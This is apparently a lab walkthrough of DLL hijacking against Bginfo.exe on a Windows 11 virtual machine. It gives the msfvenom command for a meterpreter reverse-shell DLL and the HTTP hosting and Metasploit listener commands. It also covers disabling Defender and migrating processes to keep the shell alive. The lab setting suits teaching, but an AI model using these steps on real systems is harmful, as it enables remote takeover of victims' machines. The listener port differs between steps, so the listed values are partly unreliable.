 # 1. Find the Vulnerable `.dll` File
### In Windows 11 VM
Use [procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to find the vulnerable `.dll` file.

### Filter Settings
Create the following 3 conditions
![procmon](./screenshots/02.png)


### Search for vulnerable `.dll` file
Then execute [Bginfo.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/bginfo).

![Bginfo.exe](./screenshots/03.png)

I tried one or several `.dll` files in the folder of `C:\User\user\Desktop\BGinfo` at the same time, but none of them worked. Eventually, I found on `.dll` file `rpcss.dll` had been searched by `Bginfo.exe` twice, so I tried it and it worked!

![rpcss.exe](./screenshots/01.png)

# 2.Kali VM
### Generate malicious `.dll` file
You can use `ip a` to find your IP address in case you haven't checked it yet.
```bash
msfvenom -p windows/meterpreter/reverse_tcp  -ax86 -f dll LHOST=<YOUR_IP_ADDR> LPORT=4444 > <VULNERABLE_DLL_FILE_NAME>.dll
```
![malicious_dll.exe](./screenshots/04.png)

### Host a server 8000
Then, the victim Windows 11 VM can download this malicious `.dll` file directly from your server.
```bash
python3 -m http.server 8000
```

# 3. Windows 11 VM
### Download the file
- Make sure you turn off the defender before, or the file will be removed.
- Put this `.dll` file into the folder shown in the `procmon`.

![server_8000](./screenshots/05.png)

# 4. Kali
### Generate shell in Metasploit
```bash
sudo msfconsole
```

![Metaslpoit](./screenshots/06.png)

### Create the shell

```bash
use multi/handler
set LHOST <YOUR_IP_ADDR>
set LPORT 444
set PAYLOAD windows/meterpreter/reverse_tcp
```

**NOTE:** You can use `show options` to check the information you typed previously.

### Start Listening
Finally, we can start listening to the malicious payload once the victim click on the executable, then it will be reversed back to the Kali VM.
```bash
exploit
```

# 5. Windows 11
I restart the Windows 11 VM before fire up the executable `Bginfo.exe`, but if you succeed right away, you can skip this step/

![Bginfo.exe](./screenshots/07.png)

# 6. Kali
Then you will find you have the meterpreter shell now.
![meterpreter shell 01](./screenshots/08.png)

# Exploration
- Explore the victim's VM
- Migrate to another process in case the victim kills the original one.
![meterpreter shell 02](./screenshots/09.png)

### Check the Vulnerabilities

![meterpreter shell 03](./screenshots/10.png)

It might take longer time for Windows 11, Windows 10 or 7 would be recommended for testing prupose.
![meterpreter shell 04](./screenshots/11.png)


---

# Reference
- [DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.